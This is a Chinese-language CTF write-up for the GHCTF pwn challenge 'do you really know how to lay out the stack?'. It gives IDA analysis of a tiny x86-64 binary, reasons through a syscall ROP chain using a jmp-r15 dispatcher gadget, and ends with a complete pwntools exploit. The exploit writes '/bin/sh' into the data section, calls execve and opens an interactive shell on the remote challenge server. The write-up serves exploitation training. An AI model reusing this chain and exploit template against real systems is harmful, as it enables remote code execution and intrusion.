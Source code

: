 ```yaml
---
title: GHCTF 你真的会布置栈吗？
sticky: 1
---
```

#  GHCTF 你真的会布置栈吗？

## ida分析

### _start函数分析 
![813b6b639a05fd8870ff80b5be117df7.png](https://img.picui.cn/free/2025/03/08/67cc554898165.png)
1.print了两段字符，然后调用sys_read()读取数据，溢出空间非常大
2.最后，不是leave ret，而是jmp rsp，var8 是 qword ptr -8  ，可以从汇编代码查看

### print函数分析
![a36c17d8abe90bc1a9920db0595e982d.png](https://img.picui.cn/free/2025/03/08/67cc56bc5732f.png)
1.print是通过sys_wirte()，实现写字符，最后也是jmp rsp.


### gadgets 分析
1.gadgets都已经在上面的图中，可以看到，我们能直接控制的有rsi,rdi,rbx,r13,r15，最后还会jmp r15.
2.从print的汇编中可以看到，可以交换rax和r13 的值，因此可以间接控制rax.
3.同时，dispatch留有执行rbx中代码的功能.
4.下方还可以控制rdx，rsi，rdi 值为0.

## 构造思路
1.首先，在_start 函数中有很明显的溢出漏洞，并且通过jmp rsp 可以跳转到我们写入的地址。第一眼，考虑shellcode ，但是一下就可以排除。因为它不会执行shellcode，而是跳转地址。因为题目只有系统调用的函数，所以肯定是用syscall解题。
2.确定是用syscall写题之后，考虑要控制的寄存器。首先execve函数的系统调用号是0x3b，需要设置rax=0x3b，可以通过r13 和 `xchg rax，r13` 实现，接着是rsi 设置为0 ，rdx 设置为0 ，rdi设置为，`"/bin/sh\x00"` 的地址。但是程序中没有该字符串，所以需要，先调用一次read往程序上写入字符串。
3.read函数，需要控制rax=0，rsi为buf，即写入的地址，rdx为写入字符数。可以利用gadgets 设置rsi 完成任意地址写，利用本身的sys_read 设置字节为0x539。因为程序没有bss段，所以只能往data段上写入字符。
4.那么目前的思路就是，利用sys_read往data段写入字符，再执行execve，getshell
5.但是似乎忽略了一点。rdx，本身是0x539，我们没有修改，需要通过xor_rdx 来修改为0 ，但是这条指令进跟着的是jmp r15.意味着，我们不能设置r15 为xor_rdx。 考虑让r15 指向xchg rax，r13，将rsp 设置为xor_rdx,也陷入了循环。似乎无法跳出循环。
6.此时注意到dispatch,可以跳转到rbx中的指令，而且每次执行会加8，也就是可以执行下一条指令。这样一来，我们把r15 指向dispatch，同时设置rbx为之前sys_read时，buf的地址.然后，之前sys_read时在buf 里依次布置指令，xor_rdx，xchg rax,r13 的地址。这样，将rdx置0 后，程序会跳转到xchg rax，r13 ，将rax 设置为r13的值.最后将rsp 设置为，syscall，就可以完成这华丽的rop。

## exp 

### 花里胡哨的rop
```python 
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=1
url='node2.anna.nssctf.cn'
port=28634
elf=ELF("./attachment")
if mode == 0:
    io=process("./attachment")
else :
    io=remote(url,port)

sys_call=0x401077
rax_r13=0x40100c
data=0x402000
gadget_pop=0x401017
dispatcher=0x401011
xor_rsi=0x401027
Free_Gate=0x40101c
xor_rdx=0x401021

payload=p64(gadget_pop)
payload+=p64(0)*3
payload+=p64(gadget_pop) #r15
payload+=p64(data) #rsi ,rsp
payload+=p64(0)*3 #rdi,rbx,r13
payload+=p64(rax_r13) #r15 
payload+=p64(Free_Gate)
payload+=p64(sys_call) #r15   read

payload+=p64(gadget_pop)# rsp,rsi
payload+=p64(data)+p64(0)+p64(0)# rdi,rbx,r13
payload+=p64(gadget_pop)# r15
payload+=p64(0) # rsp,rsi
payload+=p64(data)+p64(data)+p64(0x3b) # rdi,rbx,r13
payload+=p64(dispatcher)#r15
payload+=p64(sys_call)

io.send(payload)
payload=b'/bin/sh\x00'
payload+=p64(xor_rdx)+p64(rax_r13)
#gdb.attach(io)
io.send(payload)


io.interactive()
```